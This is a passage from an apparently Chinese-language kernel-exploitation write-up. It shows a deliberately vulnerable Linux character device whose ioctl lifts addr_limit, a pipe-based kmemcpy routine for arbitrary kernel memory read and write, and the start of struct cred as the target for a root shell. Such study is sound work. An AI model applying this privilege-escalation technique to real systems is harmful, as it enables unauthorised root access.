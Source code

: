 ```C
        result = alloc_chrdev_region(&devno, 0, 1, "arw");
        arw_major = MAJOR(devno);
    }
    printk("arw_major /dev/arw: %d", arw_major);

    if (result < 0)
        return result;

    arw_class = class_create(THIS_MODULE, "arw");
    device_create(arw_class, NULL, devno, NULL, "arw");

    cdev_init(&cdev, &arw_fops);
    cdev.owner = THIS_MODULE;
    cdev_add(&cdev, devno, 1);
    printk("arw init success\n");
    return 0;
}

static void arw_exit(void)
{
    cdev_del(&cdev);
    device_destroy(arw_class, MKDEV(arw_major, 0));
    class_destroy(arw_class);
    unregister_chrdev_region(MKDEV(arw_major, 0), 1);
    printk("arw exit success\n");
}

MODULE_AUTHOR("exp_ttt");
MODULE_LICENSE("GPL");

module_init(arw_init);
module_exit(arw_exit);
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>可以看到出于方便，ioctl的cmd5直接修改了thead_info->addr_limit为最大数，那么我们所需要做的就是去利用之就行了，既然可以访问任意地址了，那么我们就可以泄漏或者修改任意地址，不过似乎只能通过管道修改而不是直接修改，具体原因未知23333，如果有大佬知道的话希望能告诉我，万分感谢。修改途径如下：</font></br>

```C
int kmemcpy(void *dest, void *src, size_t size)
{
    write(pipefd[1], src, size);
    read(pipefd[0], dest, size);
    return size;
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>管道大家都知道吧，一个进一个出，需要泄漏时我们就可以令src为泄漏地址，dest为接受地址；需要修改时令src为payload，dest为被修改地址。那么现在我们的情况是，可以write-anything-anywhere，我们如何得到一个root shell呢？这里又要引出另一个结构体：</font></br>

```C
struct cred {
    atomic_t    usage;
#ifdef CONFIG_DEBUG_CREDENTIALS
    atomic_t    subscribers;    /* number of processes subscribed */
    void        *put_addr;
    unsigned    magic;
#define CRED_MAGIC  0x43736564
#define CRED_MAGIC_DEAD 0x44656144
#endif
    kuid_t      uid;        /* real UID of the task */
    kgid_t      gid;        /* real GID of the task */
    kuid_t      suid;       /* saved UID of the task */
    kgid_t      sgid;       /* saved GID of the task */
    kuid_t      euid;       /* effective UID of the task */
```
